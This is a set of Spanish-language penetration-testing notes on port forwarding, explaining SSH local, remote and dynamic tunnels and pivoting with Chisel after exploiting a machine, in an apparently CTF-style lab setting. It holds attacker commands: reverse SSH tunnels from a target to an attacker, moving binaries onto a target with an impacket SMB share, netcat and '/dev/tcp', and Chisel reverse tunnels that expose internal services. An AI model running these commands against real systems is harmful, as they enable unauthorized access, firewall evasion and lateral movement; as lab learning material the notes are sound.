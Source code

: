 ** Port Forwarding  (Redirección de puertos, tunelización de puertos) **
Acción de redirigir un puerto de red de un nodo de red a otro. Permite a un usuario externo tener acceso a un puerto de una dirección IP privada (dentro de una LAN) desde el exterior vía un router con NAT activado. Se hace a través de SSH para evadir restricciones de firewall y filtros establecidos en la red. Tipos de Port Forwarding:
- Local Port Forwarding --> conexión máquina local a una máquina remota en un puerto determinado.
		`ssh -L 8080:www.debian.org:80 root@192.168.1.34`
		// Se abre un túnel en el puerto 8080 entre la máquina local y la 192.168.1.34. Cuando en ésta última máquina se accede al puerto 8080 se accederá desde la máquina local al recuros ww.debian.org y lo filtrará por el puerto 80.
- Remote Port Forwarding --> Se abre un puerto en la máquina servidora (servicio ssh) y posteriormente este apunta a una dirección concreta (en el sentido contrario). Realizado para bypassear restricciones de proxies y firewalls.
		`ssh -R 8080:192.168.1.33:22 root@192.168.1.34`
		// Máquina atacante (33) establece Remote Port Forwarding con máquina objetivo (34).
- Dynamic Forwarding --> Convierte el servidor SSH en un servidor proxy socks. El puerto establecerá una conexión segura, similar a Remote Forwarding pero no redirecciona a una dirección fija, sino a una dirección dinámica que solicita el cliente.
		`ssh -D 8090 -C root@192.168.1.34`
		// Puerto dinámico en 8090
		
==================================================================

** Port Triggering **
Impulso de disparo de señales del puerto.
Mapeador de puertos dinámico. Se asocia un "trigger-port" a un conjunto de purtos a abrir, de forma que cuando la máquina local se conecte a ese "trigger-port" el router abrirá los puertos que se le han asociado cuando reciba una petición entrante en esa conexión.

==================================================================

** Reenvío  remoto de puertos **
Cuando nos encontramos en una máquina que hemos explotado un puerto abierto pero sólo podemos acceder a él de forma local, es posible redirigir los paquetes de un puerto a uno en nuestra máquina local.
>Comprobamos los puertos abiertos en la máquina
>`netstat -nat | grep "8080"`
>En la máquina objetivo se puede realizar un remote port forwarding con la herramienta ssh
>`ssh -R 4646:127.0.0.1:8080 s4vitar@<own_ip> -fNT`
>fNT permite crear la regla pero sin entrar en nuestro sistema
>En nuestra máquina local comprobamos el puerto 4646 si está abierto 
>`netstat -nat | grep "4646"`
>Podemos acceder desde nuestro navegador desde localhost:4646

==================================================================

** Local Port Forwarding **
> Desde la máquina local (atacante), nos conectamos a la máquina objetivo mediante SSH y redireccionamos un puerto interno en la máquina objetivo para que sea visible en nuestra máquina local (atacante)
> `ssh development@10.10.10.228 -L 1234:127.0.0.1:1234`
> Si este fuera un puerto con un servicio HTTP, podríamos acceder a él desde nuestra máquina local. desde el navegador: `http://localhost:1234`

==================================================================

** Remote Port Forwarding con Chisel ** 
> Descargar releases para Linux y WIndows (amd64): https://github.com/jpillora/chisel/releases

Compilar Chisel
> `go build -ldflags "-s -w" .`
> `upx brute chisel`

Transferir "chisel_windows_amd64" a la máquina objetivo ya descomprimido:
> Descomprimir fichero para Windows (64 bits) 
> `gunzip chisel_windows_amd64.exe.gz`
> Montar servidor SMB en local para compartir el binario "chishel_windows_amd64.exe"
> `impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar`
> Desde la máquina objetivo, transferir el binario
> `copy \\10.10.14.6\smbFolder\chisel_windows_amd64.exe C:\Windows\Temp`

Si estamos en Linux, también podemos usar "netcat" para transferir un fichero, en este caso el binario de nmap para Linux.
> En local, compartimos el binario por netcat
> `nc -nlvp 443 < chisel`
> En la máquina objetivo
> `nc 10.9.6.44 443 > chisel`
> En la máquina objetivo, si no existen netcat, podemos utilizar '/dev/tcp'
> `cat > nmap < /dev/tcp/10.9.6.44/443`

Crear Port Forwarding.
> Montar servidor Chisel en máquina atacante:
> `./chisel server -p 8008 --reverse`
> Montar cliente Chisel en máquina objetivo:
> `C:\Windows\Temp\chisel_windows_amd64.exe client 10.10.14.6:8008 R:88:127.0.0.1:88 R:389:localhost:389`
> Comprobar Port Forwarding en máquina atacante:
> `netsat -nat | grep "88"` || `lsof -i:88`
